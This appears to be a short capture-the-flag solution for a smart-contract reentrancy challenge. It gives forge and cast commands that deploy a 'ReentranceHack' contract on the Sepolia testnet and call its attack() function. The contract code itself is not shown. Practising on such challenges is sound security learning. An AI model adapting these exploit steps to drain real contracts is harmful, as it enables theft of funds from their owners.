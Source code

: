 # Reentrance Solution

Deploy `ReentranceHack`:

```
forge create ReentranceHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args `ìnstanceAddress`
```

Call the `attack()` function:

```
cast send `reentranceHackAddress` "attack()" --value 10000000000000000wei --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
